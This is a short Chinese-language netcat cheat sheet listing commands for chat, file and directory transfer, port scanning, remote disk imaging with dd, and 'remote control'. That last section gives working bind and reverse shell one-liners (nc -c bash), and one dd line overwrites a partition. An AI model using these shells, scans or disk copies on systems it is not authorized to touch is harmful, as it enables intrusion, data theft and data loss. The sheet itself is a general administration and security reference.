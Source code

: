 ### 聊天/信息传递<br>
Server:   <br>>nc -l -p 4444   <br>Client:    <br>>nc -nv IP 4444   <br>### 电子取证<br>
Server：    <br>>nc-l -p 4444 > remote.txt    <br>Client： -q 表示完成后多少秒后退出   <br>>ls-l | nc -nv IP 4444 -q 1   <br><br>
### 文件传输<br>
Server: 接收文件    <br>>nc -lp 4444 > 1.mp3   <br>Client: 发送文件    <br>>nc -nv IP 4444 < 1.mp3 -q 1   <br>### 目录传输<br>
Server: 接收文件    <br>>tar -cvf - music/ | nc -lp 4444 -q 1   <br>Client: 发送文件    <br>>nc -nv IP 4444 | tar -xvf -    <br><br>
### 端口扫描（作为辅助参考，不一定准确，结合其他工具，例如nmap）<br>
TCP 端口：  <br>>nc -nvz IP 1-65535    <br>UDP 端口：   <br>>nc -nvzu IP 1-65535  <br><br>
### 远程硬盘拷贝（用于电子取证，删除文件还原）<br>
远程接收  <br>>nc -lp 4444 | dd of=/dev/sda1   <br>被拷贝   <br>>dd if=/dev/sda | nc -lp 4444 -q 1    <br><br>
### 远程控制<br>
正向：    <br>>nc -lp 4444 -c bash    <br>>nc IP 4444   <br>反向：    <br>>nc -lp 4444   <br>>nc IP 4444 -c bash  <br>如果是Windows，将bash换成cmd    <br><br>
### NC缺乏加密和身份验证功能， 用ncat 来替换<br>
>ncat -c bash --allow ClientIP -nvl 4444 --ssl   <br>>ncat -nv ServerIP 4444 --ssl   <br><br>
<br>
